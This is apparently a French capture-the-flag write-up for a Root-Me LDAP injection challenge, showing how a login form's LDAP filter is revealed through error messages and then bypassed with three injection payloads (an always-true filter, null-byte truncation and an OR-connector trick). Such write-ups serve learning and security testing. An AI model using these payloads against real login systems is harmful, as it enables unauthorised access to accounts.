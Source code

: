 # LDAP Injection - Authentification

La page deu [challenge](http://challenge01.root-me.org/web-serveur/ch25/)

## Analyse

Pour commencer, on essaye de trouver les champs vulnérable. A la mnaière d'une détection d'injection SQL, on va entrer certains caractères de la syntax des requêtes LDAP, les parenthèses et les symboles logiques & _(and)_ et | _(or)_.
```
LOGIN: a)
PASSWORD: 

ERROR : Invalid LDAP syntax : (&(uid=a))(userPassword=))
```

En enlevant le symbole _a)_, on retrouve le squelette de la requête: `(&(uid=---)(userPassword=---))`. Sans connaitre de noms d'utilisateur ou de mot de passe, on doit faire en sorte de remplacer les _---_ pour que cette requête soit vrai.

La première idée serais d'utiliser le symbole *. Malheuresement le caractères * ne semble pas être accepté.
```
LOGIN: *
PASSWORD: * 

ERROR : Bad characters in password
```

## Attaque 1

On utilise un _"absolute true filter"_, représenté par _(&)_ qui est toujours vrai. Son opposé _"absolute false filter"_ est représenté par _(|)_.
```
LOGIN: *
PASSWORD: *)(&

(&(uid=*)(userPassword=*)(&))
```

## Attaque 2

On peut s'arranger pour tout écrire dans le champs Login, puis couper le reste de la requête LDAP (à la manière d'ajout de symbole pour les commentaires dans le cas des injections SQL). On utilise pour ca du **NULL byte poisoning**.
```
LOGIN: *)(userPassword=*))%00
PASSWORD:

(&(uid=*)(userPassword=*))%00)(userPassword=---))
(&(uid=*)(userPassword=*))
```

## Attaque 3

Même idée que l'attaque 2, mais en jouant avec les connecteurs logique.
```
LOGIN: *)(|(userPassword=*
PASSWORD: p)

( & (uid=*) ( |(userPassword=*)(userPassword=p) ) )
```
